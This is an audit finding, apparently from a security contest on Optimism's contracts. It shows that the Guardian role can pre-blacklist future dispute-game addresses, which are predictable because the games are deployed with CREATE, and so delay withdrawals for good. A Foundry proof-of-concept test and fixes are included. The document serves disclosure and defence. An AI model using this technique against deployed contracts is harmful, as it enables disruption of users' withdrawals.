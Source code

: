 Curly Turquoise Ram

high

# Guardian role can be abused to delay withdrawals even when replaced

## Summary

Due to the uni-directional blacklisting functionality and `disputeGameFactory` usage of the `CREATE` opcode to deploy games - The `Guardian` can abuse his restricted capability to blacklist future dispute games. Such act will delay withdrawals and cannot be fixed by replacing the Guardian.

## Vulnerability Detail

`DisputeGameFactory` uses `clones-with-immutable-args` (https://github.com/Saw-mon-and-Natalie/clones-with-immutable-args) to deploy the proxy `FaultDisputeGame` game.
The clone implementation uses the `CREATE` opcode to create the game.
https://github.com/Saw-mon-and-Natalie/clones-with-immutable-args/blob/main/src/ClonesWithImmutableArgs.sol#L147
```solidity
    function clone(address implementation, bytes memory data)
        internal
        returns (address payable instance)
    {
---------------------
            instance := create(0, ptr, creationSize)
---------------------
    }
```
The `CREATE` opcode calculates the deployed address using `address` and `nonce` of (DisputeGameFactory).
Therefore - the addresses of the next games can be accurately calculated no matter what the claim is.

The `Guardian` can blacklist and game:
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/L1/OptimismPortal2.sol#L440
```solidity
    function blacklistDisputeGame(IDisputeGame _disputeGame) external {
        require(msg.sender == guardian(), "OptimismPortal: only the guardian can blacklist dispute games");
        disputeGameBlacklist[_disputeGame] = true;
    }
``` 

Notice that the guardian cannot un-blacklist a game. 

Therefore a `guardian` can abuse his role ***in a single transaction***:
1. Calculate a large amount of future game proxy addresses
2. Blacklist the large amount of future game proxy addresses.

When that happens - the OP Superchain config owner will replace the guardian, however it will be to late because:
1. Guardian cannot un-blacklist the game
2. Changing the respected game type will not help since the calculated address is not related to the game implementation

## Impact

1. Withdrawal delay
2. Detachment of the OptimismPortal2 and the `DisputeGameFactory` (games can still be created but not used)

## Code Snippet

### POC

Add the following functions to `OptimismPortal2.t.sol`:
```solidity
    // Calculate next CREATE output for disputeGameFactory
    function calculateGameAddress(uint256 nonce) internal view returns (address) {
        address addr = address(disputeGameFactory);
        bytes memory data;
        bytes1 len = bytes1(0x94);
        if (nonce <= 0x7f) data = abi.encodePacked(bytes1(0xd6), len, addr, uint8(nonce));
        else if (nonce <= type(uint8).max) data = abi.encodePacked(bytes1(0xd7), len, addr, bytes1(0x81), uint8(nonce));
        else if (nonce <= type(uint16).max) data = abi.encodePacked(bytes1(0xd8), len, addr, bytes1(0x82), uint16(nonce));

        return address(uint160(uint256(keccak256(data))));
    }

    function test_blacklist_guardian_future_games() external {
        // disputeGameFactory nonce is current 2
        uint256 starting_nonce = 2;
        // blacklist the next 2000 game creations
        uint256 ending_nonce = starting_nonce + 2000;

        vm.startPrank(optimismPortal2.guardian());
        for(uint256 nonce = starting_nonce; nonce <= ending_nonce; nonce++){
            // Calculate the next game addr by calculating the result
            // of CREATE opcode in disputeGameFactory: keccak256(rlp([disputeGameFactory,nonce]))[12:]
            address calculated_game_addr = calculateGameAddress(nonce);

            // Blacklist the calculated game
            optimismPortal2.blacklistDisputeGame(IDisputeGame(calculated_game_addr));
        }

        /// VALIDATE //
        // Just for validation that we calculated correctly - deploy games and check if they are blacklisted
        for(uint256 nonce = starting_nonce; nonce <= ending_nonce; nonce++){
            // Deploy game using the factory
            IDisputeGame deployed_addr = disputeGameFactory.create(
                optimismPortal2.respectedGameType(), Claim.wrap(hex""), abi.encode(_proposedBlockNumber + nonce)
            );

            // Validate that the deployed address is already blacklisted
            assertEq(optimismPortal2.disputeGameBlacklist(deployed_addr), true, "Game proxy calculated addr and deployed address do not match");
        }
    }
```

To run the POC:
```solidity
forge test --match-test "test_blacklist_guardian_future_games"
```

## Tool used

Manual Review

## Recommendation

Consider:
1. Allow blacklisting to created games only:  ` disputeGameProxy.createdAt().raw() != 0`
2. Modify CWIA to use CREATE2 instead
3. Allow Guardian to un-blacklist games
